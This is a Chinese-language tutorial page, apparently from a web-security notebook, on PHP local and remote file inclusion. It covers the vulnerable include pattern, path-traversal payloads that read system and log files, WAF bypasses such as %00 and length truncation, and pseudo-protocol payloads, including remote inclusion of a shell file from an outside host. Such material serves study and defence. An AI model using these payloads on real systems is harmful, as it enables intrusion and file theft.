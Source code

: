 文件包含
========================================

基础
----------------------------------------
常见的文件包含漏洞的形式为 ``<?php include("inc/" . $_GET['file']); ?>``

考虑常用的几种包含方式为

- 同目录包含 ``file=.htaccess``
- 目录遍历 ``?file=../../../../../../../../../var/lib/locate.db``
- 日志注入 ``?file=../../../../../../../../../var/log/apache/error.log``
- 利用 ``/proc/self/environ``

其中日志可以使用SSH日志或者Web日志等多种日志来源测试

触发Sink
----------------------------------------
- PHP
    - include
        - 在包含过程中出错会报错，不影响执行后续语句
    - include_once
        - 仅包含一次
    - require
        - 在包含过程中出错，就会直接退出，不执行后续语句
    - require_once


绕过技巧
----------------------------------------
常见的应用在文件包含之前，可能会调用函数对其进行判断，一般有如下几种绕过方式

url编码绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果WAF中是字符串匹配，可以使用url多次编码的方式可以绕过

特殊字符绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 某些情况下，读文件支持使用Shell通配符，如 ``?`` ``*`` 等
- url中 使用 ``?`` ``#`` 可能会影响include包含的结果
- 某些情况下，unicode编码不同但是字形相近的字符有同一个效果

%00截断
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
几乎是最常用的方法，条件是magic_quotes_gpc打开，而且php版本小于5.3.4。

长度截断
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Windows上的文件名长度和文件路径有关。具体关系为：从根目录计算，文件路径长度最长为259个bytes。

msdn定义 ``#define MAX_PATH 260``，其中第260个字符为字符串结尾的 ``\0`` ，而linux可以用getconf来判断文件名长度限制和文件路径长度限制。

获取最长文件路径长度：getconf PATH_MAX /root 得到4096
获取最长文件名：getconf NAME_MAX /root 得到255

那么在长度有限的时候，``././././`` (n个) 的形式就可以通过这个把路径爆掉

在php代码包含中，这种绕过方式要求php版本 < php 5.2.8

伪协议绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 远程包含: 要求 ``allow_url_fopen=On`` 且 ``allow_url_include=On`` ， payload为 ``?file=[http|https|ftp]://websec.wordpress.com/shell.txt`` 的形式
- PHP input: 把payload放在POST参数中作为包含的文件，要求 ``allow_url_include=On`` ，payload为 ``?file=php://input`` 的形式
- Base64: 使用Base64伪协议读取文件，payload为 ``?file=php://filter/convert.base64-encode/resource=index.php`` 的形式
- data: 使用data伪协议读取文件，payload为 ``?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`` 的形式，要求 ``allow_url_include=On``

参考链接
----------------------------------------
- `Exploit with PHP Protocols <https://www.cdxy.me/?p=752>`_
- `lfi cheat sheet <https://highon.coffee/blog/lfi-cheat-sheet/>`_
